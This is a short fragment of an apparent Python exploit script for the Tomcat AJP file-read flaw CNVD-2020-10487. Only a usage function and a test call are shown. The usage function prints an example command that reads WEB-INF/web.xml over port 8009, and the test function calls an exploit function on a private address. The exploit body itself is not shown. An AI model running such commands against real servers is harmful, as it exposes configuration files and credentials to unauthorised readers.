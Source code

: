 # CNVD-2020-10487-tomcat-fileread


def usage():
	print '''python tomcatfileread.py 192.168.0.1 8009 WEB-INF/web.xml''' 

def test():
	exploit('10.10.0.81', 8009)

